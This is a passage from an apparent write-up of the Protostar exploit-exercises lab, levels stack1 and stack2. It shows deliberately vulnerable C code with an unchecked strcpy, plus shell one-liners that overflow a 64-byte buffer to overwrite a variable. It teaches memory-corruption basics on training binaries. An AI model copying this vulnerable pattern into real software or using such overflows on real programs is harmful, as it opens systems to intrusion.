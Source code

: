 This means that we can write 4 bytes past the space allocated for `buffer` to
contain whatever byte value we want. We look up the ASCII characters for
`0x61626364` which corresponds to `dcba` (remember, little-endian).

```shell
user@protostar:~$ python -c "print 'A' * 64 + 'dcba'" | xargs /opt/protostar/bin/stack1
you have correctly got the variable to the right value
```

# stack 2

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Again, this is pretty similar to the previous level except that the data is
passed in via the enviromental variable `GREENIE` and we need to write
`0x0d0a0d0a` to `modified`.

```shell
user@protostar:~$ GREENIE=`python -c "print 'A' * 65"` /opt/protostar/bin/stack2
Try again, you got 0x00000041
```

Given that `0x0a` and `0x0d` are special ASCII characters, we cannot print it
out directly. However, there is a way in Python to print out the raw byte
values that we need.


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/